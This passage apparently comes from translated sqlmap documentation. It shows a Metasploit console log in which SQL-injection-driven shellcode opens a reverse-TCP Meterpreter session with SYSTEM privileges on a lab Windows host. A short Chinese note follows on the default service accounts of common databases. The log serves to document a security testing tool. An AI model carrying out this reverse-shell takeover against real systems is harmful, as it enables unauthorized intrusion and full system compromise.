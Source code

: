 ```


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL作为 `系统`在Windows上运行, 但是PostgreSQL在Windows和Linux上都是低权限用户的 `数据库` 。默认情况下，微软SQL Server 2000作为`SYSTEM`运行，而微软SQL Server 2005和2008运行的大部分时间是 `网络服务` 有时则是 `本地服务`。
